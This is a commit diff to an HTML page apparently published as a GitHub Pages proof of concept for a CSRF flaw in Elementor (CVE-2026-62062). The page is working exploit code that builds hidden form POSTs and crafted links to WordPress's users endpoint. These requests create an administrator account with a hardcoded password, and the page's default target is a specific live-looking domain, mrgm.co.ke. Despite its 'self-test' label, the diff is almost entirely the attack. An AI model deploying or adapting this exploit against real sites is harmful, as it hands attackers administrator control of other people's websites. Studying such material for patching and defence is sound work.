

Before and after one commit to MIKE2634/elementor-vul, a plain HTML site: page index.html in a window 1280 px wide. Shown: the part 29-1312 px from the top of the page, without its empty margins (198-1083 px from the left). Before the commit the page ends 800 px from the top, so only its background shows below. Drawn offline with Linux system fonts and the light colour scheme.

Commit message:
Update GitHub Pages

```diff
--- a/index.html
+++ b/index.html
@@ -3,48 +3,176 @@
 <head>
 <meta charset="utf-8">
 <meta name="viewport" content="width=device-width, initial-scale=1">
-<title>Elementor CSRF PoC — CVE-2026-62062</title>
+<title>Elementor CSRF → Admin (CVE-2026-62062) — self-test</title>
 <style>
-  body{font-family:system-ui,sans-serif;max-width:760px;margin:40px auto;padding:0 16px;line-height:1.5}
-  input,textarea,code{font-family:ui-monospace,monospace}
-  input,textarea{width:100%;box-sizing:border-box;padding:8px;margin:4px 0 16px}
-  a.btn{display:inline-block;padding:12px 20px;font-size:16px;color:#fff;background:#b3261e;
-        text-decoration:none;border-radius:6px}
-  .note{background:#fff4e5;border-left:4px solid #f0a000;padding:10px 14px;border-radius:4px}
+  :root{--bd:#d0d7de}
+  body{font-family:system-ui,-apple-system,Segoe UI,sans-serif;max-width:820px;margin:32px auto;padding:0 16px;line-height:1.55;color:#1f2328}
+  h1{font-size:1.4rem}
+  label{display:block;font-weight:600;margin-top:18px}
+  input,select,textarea{width:100%;box-sizing:border-box;padding:8px;margin:6px 0;
+    border:1px solid var(--bd);border-radius:6px;font-family:ui-monospace,monospace;font-size:13px}
+  button{padding:12px 20px;font-size:15px;border:1px solid #1f2328;border-radius:6px;
+    background:#b3261e;color:#fff;cursor:pointer;margin-top:10px}
+  button.sec{background:#f6f8fa;color:#1f2328}
+  .grid{display:grid;grid-template-columns:1fr 1fr;gap:12px}
+  .note{background:#fff8e1;border-left:4px solid #f0a000;padding:10px 14px;border-radius:4px;margin:16px 0}
+  .ok{background:#e6ffed;border-left:4px solid #2da44e;padding:10px 14px;border-radius:4px}
+  table{border-collapse:collapse;width:100%;font-size:13px;margin-top:10px}
+  td,th{border:1px solid var(--bd);padding:6px 8px;text-align:left}
+  iframe{width:100%;height:180px;border:1px solid var(--bd);border-radius:6px;background:#fff}
 </style>
 </head>
 <body>
-  <h1>Elementor 4.3.0/4.3.1 — CSRF → Admin</h1>
-  <p class="note">Victim must be logged in as admin on the target <strong>in this same browser</strong> before clicking.</p>
+  <h1>Elementor 4.3.0 / 4.3.1 — CSRF → Admin Creator</h1>
 
-  <p>Target base URL:</p>
-  <input id="target" value="https://mrgm.co.ke">
+  <div class="note">
+    <strong>Self-test only.</strong> You must be logged in as administrator on the target
+    <em>in this same browser</em> first. Then use the form (recommended) or the link.
+  </div>
 
-  <p>Payload URL (note the LITERAL slashes in the marker):</p>
-  <textarea id="payload" rows="4" readonly></textarea>
+  <label>Target base URL</label>
+  <input id="target" value="https://mrgm.co.ke" spellcheck="false">
 
-  <a id="fire" class="btn" href="#">Create "test" admin</a>
+  <div class="grid">
+    <div>
+      <label>Endpoint style</label>
+      <select id="style">
+        <option value="wpjson">/wp-json/ path</option>
+        <option value="restroute">?rest_route= fallback</option>
+      </select>
+    </div>
+    <div>
+      <label>Marker variant</label>
+      <select id="variant">
+        <option value="good">elementor/v1/events/  (should work)</option>
+        <option value="short">elementor/v1/event/   (control: must fail)</option>
+        <option value="none">(no marker — control: must fail)</option>
+      </select>
+    </div>
+  </div>
+
+  <label>Username / password created on success</label>
+  <input id="creds" value="test : Mike@17894" readonly>
+
+  <label>Payload URL (literal slashes in the marker)</label>
+  <textarea id="payload" rows="3" readonly spellcheck="false"></textarea>
+
+  <h2 style="font-size:1.1rem;margin-top:24px">Run</h2>
+  <button id="run">Run (form POST) — recommended</button>
+  <button id="open" class="sec">Open link (GET + _method) in new tab</button>
+
+  <p style="font-size:13px;color:#57606a">
+    The form POST is the strongest path: no JS, no <code>_method</code>, no CSP involvement.
+    The response will render in the frame below (hidden if the browser blocks cross-origin, in which
+    case check the Network tab or <code>wp user list --role=administrator</code> on the server).
+  </p>
+
+  <label>Server response / last navigation</label>
+  <iframe id="out" name="out"></iframe>
+
+  <!-- Hidden auto-built form; its target is the invisible iframe -->
+  <form id="csrf" method="POST" target="out" style="display:none"></form>
+
+  <h2 style="font-size:1.1rem;margin-top:28px">Diagnostic matrix</h2>
+  <table id="diag">
+    <thead><tr><th>Request</th><th>Expected if vulnerable + logged in</th></tr></thead>
+    <tbody>
+      <tr><td>GET <code>/wp-json/wp/v2/users/me?x=elementor/v1/events/</code></td><td>200 + your user object</td></tr>
+      <tr><td>GET <code>/wp-json/wp/v2/settings?x=elementor/v1/events/</code></td><td>200 + site settings</td></tr>
+      <tr><td>Same, marker encoded <code>%2F</code></td><td>401 — proves the substring must be literal</td></tr>
+      <tr><td>Same, no marker</td><td>401 <code>rest_cannot_create_user</code></td></tr>
+    </tbody>
+  </table>
+
+  <p id="chk" class="ok" style="display:none">
+    Before running: confirm in this browser that
+    <a id="profile" href="#" target="_blank">/wp-admin/profile.php</a> loads <em>without</em> redirecting to login.
+    If it redirects, you are not authenticated and every request will 401.
+  </p>
 
 <script>
-    // Build manually so the marker keeps literal '/' — do NOT use URLSearchParams here,
-    // it serializes '/' as %2F and REQUEST_URI then no longer contains the substring.
-    function build() {
-      const base = document.getElementById('target').value.replace(/\/+$/, '');
-      return base + '/wp-json/wp/v2/users'
-        + '?_method=POST'
+(function () {
+  var MARKER = 'elementor/v1/events/';   // literal slashes — never percent-encode
+  var SHORT  = 'elementor/v1/event/';
+
+  var $ = function (id) { return document.getElementById(id); };
+
+  function base() { return $('target').value.replace(/\/+$/, ''); }
+
+  function marker() {
+    var v = $('variant').value;
+    if (v === 'short') return SHORT;
+    if (v === 'none')  return '';
+    return MARKER;
+  }
+
+  // Build a GET URL by hand so '/', '?', '&' and the marker stay literal.
+  function getUrl() {
+    var q = '_method=POST'
           + '&username=test'
           + '&email=test%40example.test'
           + '&password=Mike%4017894'
-        + '&roles%5B%5D=administrator'
-        + '&x=elementor/v1/events/';           // literal slashes — required
+          + '&roles%5B%5D=administrator';
+    var m = marker();
+    if (m) q += '&x=' + m;                        // literal marker
+    if ($('style').value === 'restroute') {
+      return base() + '/index.php?rest_route=/wp/v2/users&' + q;
     }
+    return base() + '/wp-json/wp/v2/users?' + q;
+  }
+
+  // Form POST action URL (marker in the query string, fields in the body).
+  function postAction() {
+    var m = marker();
+    var q = m ? ('x=' + m) : '';
+    if ($('style').value === 'restroute') {
+      return base() + '/index.php?rest_route=/wp/v2/users' + (q ? '&' + q : '');
+    }
+    return base() + '/wp-json/wp/v2/users' + (q ? '?' + q : '');
+  }
+
+  function rebuildForm() {
+    var f = $('csrf');
+    f.action = postAction();
+    f.innerHTML = '';
+    var fields = {
+      'username': 'test',
+      'email': 'test@example.test',
+      'password': 'Mike@17894',
+      'roles[]': 'administrator'
+    };
+    Object.keys(fields).forEach(function (name) {
+      var i = document.createElement('input');
+      i.type = 'hidden'; i.name = name; i.value = fields[name];
+      f.appendChild(i);
+    });
+  }
+
   function render() {
-      const url = build();
-      document.getElementById('payload').value = url;
-      document.getElementById('fire').href = url;
+    $('payload').value = getUrl();
+    $('profile').href = base() + '/wp-admin/profile.php';
+    $('chk').style.display = 'block';
+    rebuildForm();
   }
-    document.getElementById('target').addEventListener('input', render);
+
+  ['target', 'style', 'variant'].forEach(function (id) {
+    $(id).addEventListener('input', render);
+    $(id).addEventListener('change', render);
+  });
+
+  // Form POST: safest, no JS in the exploit itself.
+  $('run').addEventListener('click', function () {
+    rebuildForm();
+    $('csrf').submit();
+  });
+
+  // Link navigation: shows the JSON response directly in a new tab.
+  $('open').addEventListener('click', function () {
+    window.open(getUrl(), '_blank', 'noopener');
+  });
+
   render();
+})();
 </script>
 </body>
 </html>
```
Also changed, not shown: nojs.html (+10 -7 lines). Lines whose indentation alone changed are shown as unchanged.
